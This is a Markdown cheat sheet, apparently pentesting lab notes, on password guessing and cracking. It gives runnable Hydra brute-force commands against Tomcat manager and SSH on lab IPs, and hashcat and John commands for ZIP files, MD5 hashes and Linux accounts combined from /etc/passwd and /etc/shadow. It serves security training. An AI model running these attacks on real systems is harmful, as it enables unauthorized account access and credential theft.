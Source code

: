 # Password Guessing/Cracking

* **THC-Hydra**

        $ hydra -l username -P password_file.txt -s port -f ip_address request_method /path
        $ hydra -L tomcat_username.lst -P /home/kali/Documents/lab/wordlist/rockyou.txt -s 8080 -f 10.10.10.4 http-get /manager/html
        $ hydra -l john -P rockyou.txt -t 6 ssh://10.10.10.NNN

* **HashCat**

        hashcat -a 0 -m 13100 ./hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/d3ad0ne.rule --force

* **John the Ripper**

        john --format=PuTTY --fork=4 key.hash -w=./wordlist.txt

* **findmyhash**
   Crack the password hash using [findmyhash](https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/findmyhash/findmyhash.py)

        python findmyhash.py MD5 -h “2d58e0637ec1e94cdfba3d1c26b67d01”

## Common Scenarios

### **Password-Protected ZIP**

1. Convert the password protected ZIP file into a compatible format using `zip2john` tool

        zip2john file.zip > file.hash

2. Crack the password using [john](https://www.openwall.com/john/) 

        sudo john file.hash --fork=4 -w=./rockyou.txt

### **Password Hash** 

1. Create `password.txt` file in following format

        username:MD5HASHVALUEHERE

2. Crack the hash using [john](https://www.openwall.com/john/)

        john password.txt --format=raw-md5 --wordlist=rockyou.txt --rules

### Cracking Linux Account Passwords from /etc/passwd and /etc/shadow

1. Copy contents of `/etc/passwd` into `passwd.txt`
2. Copy contents of `/etc/shadow` into `shadow.txt`
3. Combine the two files using [unshadow](http://manpages.ubuntu.com/manpages/bionic/man8/unshadow.8.html) command

        unshadow passwd.txt shadow.txt > passwords.txt

4. Crack passwords using [john](https://www.openwall.com/john/)

        $ john passwords.txt --wordlist=rockyou.txt

### Cracking a Password Hash from /etc/shadow 

1. Copy the root hash entry from `/etc/shadow` file into a separate text file `hash.txt`
2. Crack the hash using [hashcat](https://hashcat.net/hashcat/)

        hashcat -m 1800 --force hash.txt ./rockyou.txt

## References

* http://tylerrockwell.github.io/defeating-basic-auth-with-hydra/
* https://tools.kali.org/password-attacks/hydra
* [Apache Tomcat Default Credentials - Dictionary Attack Payoad](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt)
* https://www.youtube.com/watch?v=EfqJCKWtGiU
* https://www.hackingarticles.in/beginner-guide-john-the-ripper-part-1/
* https://www.youtube.com/watch?v=EfqJCKWtGiU
* https://pentesterlab.com/exercises/from_sqli_to_shell/course
* https://medium.com/@Kan1shka9/pentesterlab-from-sql-injection-to-shell-walkthrough-7b70cd540bc8
* https://code.google.com/archive/p/findmyhash/
* http://manpages.ubuntu.com/manpages/bionic/man8/unshadow.8.html
* https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/
* http://tylerrockwell.github.io/defeating-basic-auth-with-hydra/